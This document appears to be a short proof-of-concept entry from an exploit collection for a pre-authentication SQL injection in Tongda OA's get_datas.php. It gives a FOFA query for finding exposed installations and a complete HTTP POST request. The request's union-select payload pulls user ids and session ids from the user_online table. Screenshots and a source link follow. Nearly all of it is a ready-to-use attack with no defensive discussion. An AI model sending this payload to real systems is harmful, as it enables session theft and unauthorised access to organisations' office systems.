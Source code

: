 ## 通达OA get_datas.php前台sql注入

##  fofa
```
app="TDXK-通达OA"
```

## POC
```

POST /general/reportshop/utils/get_datas.php HTTP/1.1
Host: {{HostName}}
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Length: 2

USER_ID=OfficeTask&PASSWORD=&col=1,1&tab=5 where 1={`\='` 1} union (select uid,sid from user_online where 1\={`=` 1})-- '1**
```
![image](https://github.com/wy876/POC/assets/139549762/55ba1ee3-215b-4fd2-8c0c-0694a20f6bfd)

![image](https://github.com/wy876/POC/assets/139549762/3d0399a3-9fe9-46d9-b725-12acb84d422c)


## 漏洞来源
```
https://forum.butian.net/share/278
```
